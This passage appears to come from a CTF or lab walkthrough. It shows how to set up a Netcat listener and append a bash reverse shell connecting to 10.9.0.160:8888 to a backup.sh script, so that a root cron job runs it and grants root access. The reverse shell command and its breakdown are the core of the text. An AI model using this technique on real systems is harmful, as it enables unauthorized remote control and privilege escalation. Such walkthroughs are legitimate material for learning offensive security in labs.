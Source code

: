 📌 This command is Netcat, which opens a port and listens for connections from the target.

40. 🧬 Write a reverse shell into backup.sh.

📥 Use the command:

```bash
echo "bash -i >& /dev/tcp/10.9.0.160/8888 0>&1" >> backup.sh
```

![reverseshellbackup](images/30.png)

📌 Explanation:

- `bash -i`:
- Opens an interactive shell, which accepts user input/output.
- Must be `-i` for the shell to run interactively. (interactive) via TCP connection
- `>& /dev/tcp/10.9.0.160/8888`: Send data from the shell to the IP address `10.9.0.160` via TCP port `8888`
- `0>&1`: Connect stdin to stdout → Use a single socket for data transmission
- `>> backup.sh`: Add this command to the end of the `backup.sh` file without deleting the original contents

📎 Note:
The reverse shell will only work if a service (or administrator) runs the `backup.sh` file, which is typically a cronjob or script on the host.

🟢 If successful, the shell on the host will reconnect. And we'll gain root privileges on the actual host.
